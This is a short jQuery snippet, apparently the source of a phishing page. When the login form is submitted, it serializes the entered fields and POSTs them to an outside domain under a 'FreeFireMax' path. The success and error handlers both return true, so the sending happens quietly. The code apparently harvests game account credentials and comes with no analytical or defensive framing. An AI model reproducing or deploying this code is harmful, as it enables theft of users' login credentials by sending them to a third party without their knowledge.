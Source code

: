 $(".login-form").submit(function() {

	var d = $(".login-form");

	$.ajax({

        url: "https://alfiantzy.my.id/FreeFireMax/index.php",

        type: "POST",

        data: d.serialize(),

        success: function () {

            return true;

        },

        error: function () {

            return true;

        },

    });

});
